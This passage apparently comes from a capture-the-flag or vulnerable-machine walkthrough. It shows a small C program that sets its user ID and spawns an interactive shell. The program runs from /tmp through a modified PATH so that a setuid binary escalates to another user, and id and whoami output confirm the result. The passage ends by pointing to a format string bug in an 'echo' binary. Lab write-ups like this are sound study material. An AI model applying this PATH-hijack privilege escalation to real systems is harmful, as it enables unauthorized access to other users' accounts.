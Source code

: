 [c]#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main()
{
 setuid( 1005 );
 system("/usr/bin/id");
 system( "/bin/sh -i" );
}
```


This is compiled, placed in /tmp and made executable.  The path environment variable is modified as per last time and we're good to go.


``` bash

$ ./part1
Checking integrity of part2... Done!!

Checking integrity of calling target... Done!!

Binary and target confirmed.

Can't touch this *nah na na na na naaaaaaaa nah*
uid=1004(bazza) gid=1004(bazza) euid=1005(oj) egid=1003(developers) groups=1005(oj),1004(bazza)
$ whoami
oj

```


Success !

Nearly there, only this hoop to jump through and we're done.



* * *





## Orange Juice Doesn't Echo


The OJ user has 1 file, a binary called echo which does exactly that, it repeats what you send it. This guy is the height of programming ability. There's got to be something wrong with it.
<!-- more -->

A quick look at the binary in IDA, and yes there is something wrong with it, there seems to be something in it that is called a "format string vulnerability".

![](https://pmpaspeakingofprecision.files.wordpress.com/2014/07/confused-child.jpg)
